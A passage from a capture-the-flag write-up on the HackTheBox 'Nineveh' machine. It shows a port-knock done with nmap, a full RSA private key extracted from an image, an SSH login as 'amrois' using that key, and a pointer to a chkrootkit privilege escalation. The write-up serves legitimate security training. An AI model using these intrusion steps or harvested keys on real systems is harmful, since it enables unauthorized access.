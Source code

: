 ```console
root@EdgeOfNight:~# nmap -Pn --host-timeout 201 --max-retries 0 -p 571,290,911 10.10.10.43
```

If you nmap the target after the knock you will notice that SSH is open. Now we just need the password for SSH... Hydra again? No! Finding the key is tricky - you need to run `strings` command on 
`/var/www/ssl/secure_notes/nineveh.png`.
```console
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----
```
Now using the combination of nmap and ssh you can easily log into the machine:
```console
root@EdgeOfNight:~# nmap -Pn --host-timeout 201 --max-retries 0 -p 571,290,911 10.10.10.43 && ssh -i sshkey.key amrois@10.10.10.43 
```
> Note: If you get an error saying "the .key file is unprotected", simply chmod it to 600

After authenticating You can get the user flag and use the same `chkrootkit` escalation method as before!

### Congratulations!
***

# Conclusion

I loved this box! It took me a bit longer to escalate and find the SSH RSA key but what can one do, right? Hopefully you can say the same. If you have any questions leave them down in the comments or get in contact with me via the [about](https://v3ded.github.io/about/){:target="_blank"} page.

~V3
